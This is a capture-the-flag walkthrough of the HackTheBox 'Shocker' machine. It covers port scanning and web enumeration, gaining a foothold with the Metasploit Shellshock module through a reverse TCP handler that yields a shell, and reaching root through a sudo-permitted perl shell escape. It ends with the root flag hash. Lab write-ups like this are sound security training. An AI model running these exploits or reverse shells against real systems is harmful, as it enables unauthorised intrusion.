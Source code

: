```yaml
---
title: "HTB Walkthrough: Shocker"
date: 2023-03-04T22:46:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/shocker/shocker.png
tags:
  - Easy
  - Linux Host

---
```


![Shocker Logo](/assets/images/HTB/shocker/shocker.png)  

---

## Initial Scanning  


Let's run our port scanner to identify active TCP services.  

### TCP Port Scan  

Start a long scan:  

```bash
sudo nmap -sS -T5 -A -sV -p- 10.10.10.56 | tee nmap_full.log

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  

Also run a short one:  

```bash

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  

### Nikto Web Vulnerability Scan  

```bash
nikto -h 10.10.10.56:80 | tee nikto.log

---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-03-04 05:38:19 (GMT-5) (709 seconds)
---------------------------------------------------------------------------
```  

### FFUF Directory Busting  

```bash
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ | tee ffuf.log

                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 78ms]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 76ms]
```  

## Web Enumeration  

Navigating to our browser, we discover a simple picture hosted on 10.10.10.56:  

![Browser Image](/assets/images/HTB/shocker/browser.png)  

After enumerating this for a minute, we don't really find anything. I downloaded the 'bug.jpg' image on the home page, and enumerated it with file, strings, and exiftool but didn't find anything.  

After I while I was suspicious that my ffuf command failed somehow and ran a dirbuster scan. This scan returned the /cgi-bin/ and I decided to run dirbuster again, looking for collow cgi-bin files with extensions '.cgi, .sh'  

![Dirbuster1](/assets/images/HTB/shocker/dirbuster.png)  

![Dirbuster](/assets/images/HTB/shocker/cgi-bin.png)  

With this, we find a bash script at /cgi-bin/user.sh 

## Initial Access  

This script is vulnerable to the popular Shellshock exploit. Let's run it with metasploit.  

```bash
msfconsole
search shellshock

 1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
 
use 1
show options
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts 10.10.10.56
rhosts => 10.10.10.56  
                                                                                             
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lport 8080                                              
lport => 8080   
                                                                                                    
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lhost tun0                                              
lhost => 10.10.14.9    
                                                                                             
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/user.sh
targeturi => /cgi-bin/user.sh

run
[*] Started reverse TCP handler on 10.10.14.9:8080 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.9:8080 -> 10.10.10.56:33052) at 2023-03-04 07:00:47 -0500

meterpreter > id
[-] Unknown command: id

meterpreter > shell
Process 11865 created.
Channel 2 created.
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```  

Grab the flag  

```bash
cd /home/shelly
cat user.txt
```  

## Privilege Escalation  

Always check sudo privileges on users after gaining access.  

```bash
sudo -l

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```  

Doing a quick check on GTFOBins https://gtfobins.github.io/gtfobins/perl/ we find this "Sudo" privilege escalation.

```bash
$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# cat root.txt
cat root.txt
33a18a4c95d83e56b860480a4edaba87
```  

And there you have it!
